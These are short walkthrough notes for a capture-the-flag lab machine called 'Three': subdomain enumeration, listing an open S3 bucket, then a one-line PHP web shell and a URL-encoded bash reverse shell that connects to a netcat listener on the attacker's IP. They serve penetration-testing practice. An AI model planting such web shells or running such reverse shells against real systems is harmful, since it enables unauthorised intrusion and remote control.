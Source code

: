 # Three (2023-12-21)

- search webpage for important data
- get website insights with Wappalizer
- add host to `etc/hosts` file
- enumerate subdomains with `gobuster` in `vhost` mode: `gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain`
- discover s3 service running
- use awscli:
  - `aws configure` with random credentials
  - `aws s3 --endpoint http://s3.thetoppers.htb ls` to enumerate buckets
  - `aws s3 --endpoint http://s3.thetoppers.htb ls s3://thetoppers.htb` to list bucket contents
- establish a shell with
  - creating a webshell w/ file `do.php` locally with content `<?php system($_GET["cmd"]); ?>`
  - get local ip for `tun0` adapter with `ip a`
  - listen locally for incoming connection with `nc -lnvp 1337`
  - url-encode the command `bash -c 'bash -i >& /dev/tcp/10.10.14.142/1337 0>&1'` with burpsuite's `Decoder`
  - run `curl http://thetoppers.htb/do.php?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%34%32%2f%31%33%33%37%20%30%3e%26%31%27%0a`
  - explore and capture the flag
